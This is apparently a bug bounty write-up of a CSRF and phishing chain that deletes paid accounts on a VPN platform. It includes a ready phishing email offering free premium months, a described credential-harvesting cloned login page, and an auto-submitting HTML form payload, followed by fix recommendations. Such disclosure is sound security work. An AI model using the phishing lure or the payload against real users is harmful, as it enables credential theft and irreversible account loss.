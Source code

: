 #🔒 CSRF + Phishing Chain: Account Deletion Exploit on a VPN Platform

###Summary

This report presents a chained vulnerability where a weak implementation of the account deletion mechanism on a VPN platform (xyz.com) allowed for account deletion via a crafted CSRF payload—provided the victim's password was known. 
The catch? The attacker didn’t know the password in advance—but instead used phishing to collect it and chain it into the CSRF payload.
Even though phishing was used as a support vector (not the vulnerability itself), this chain exposes a critical business logic flaw with real consequences.


###Vulnerability Details

**Type:** CSRF (Cross-Site Request Forgery)
**Impact:** Permanent account deletion (paid subscription loss)
**Authentication Required:** No (relies on victim's active session)
**Prerequisite:** Victim logs in and opens attacker-delivered file

The core issue was that the /delete-account endpoint accepted POST requests containing only the user’s password—with no CSRF token, confirmation prompt, or re-authentication screen.


###Attack Flow

**1. CSRF Attempt -->** Initial testing revealed all sensitive actions were protected—except account deletion, which relied solely on a password field submitted via POST.
  Sample request:
          POST /delete-account HTTP/1.1
          Host: xyz.com
          Content-Type: application/x-www-form-urlencoded
          Cookie: session_id=...
          password=USER_PASSWORD

**2. Phishing Setup -->** To obtain the user’s password, I crafted a phishing email:
    Subject: 🎁 Reward: 3 Free Months of VPN Premium

    Hello [User],
    Thank you for being a loyal XYZ customer. You've been selected for an exclusive reward:
    ✅ 3 Months Free VPN Premium  
    🛡️ Bonus Tracker Blocker  
    ⚡ Priority Support Access  
    
     Click the link below to claim:
     [Login to Your Account]

**3. Fake Login Page -->** A cloned version of the login page captured credentials and immediately offered a downloadable file (coupon.html).

**4. CSRF Payload in coupon.html -->** The downloaded HTML file executed silently using the victim’s active session:
     <form action="https://xyz.com/delete-account" method="POST">
        <input type="hidden" name="password" value="stolen_password_here">
     </form>
     <script>document.forms[0].submit();</script>

**5. Redirection to Real Site -->** After submitting credentials, the victim was redirected to the real login page with a generic error message. Most users would simply log in again.


###Impact
 
Users lost access to their paid accounts permanently
No confirmation email or 2FA step
No CSRF token protection
No user warning or undo mechanism once deleted

###⚠️ Why This Matters

Although phishing was required to demonstrate the exploit, the real issue is poor backend validation and lack of CSRF protection. If a system allows destructive operations with just a password field (which users may reuse or can be harvested), it's vulnerable to abuse.
Modern security must account for human behavior, not just technical inputs.

###💡 Recommendations

Implement CSRF tokens for all sensitive actions
Require user re-authentication via session renewal or OTP
Implement confirmation pages or time-delayed destructive operations
Flag destructive actions via email alerts

###Disclosure Timeline

**📅 Report submitted:** Bugcrowd
**🚫 Status:** Marked Out of Scope (due to phishing chain)
🔒 No exploitation occurred outside of test accounts


###Final Thoughts

Sometimes the bug isn’t the only thing that’s broken.
Even when the report was rejected, the lesson was invaluable. Real attackers do chain phishing and logic flaws together. Ignoring such combinations leaves users vulnerable even when individual vectors look unimportant in isolation.


**If you found this write-up helpful, feel free to ⭐ the repo or share your feedback.
Let's build more secure systems by thinking like attackers ethically.**
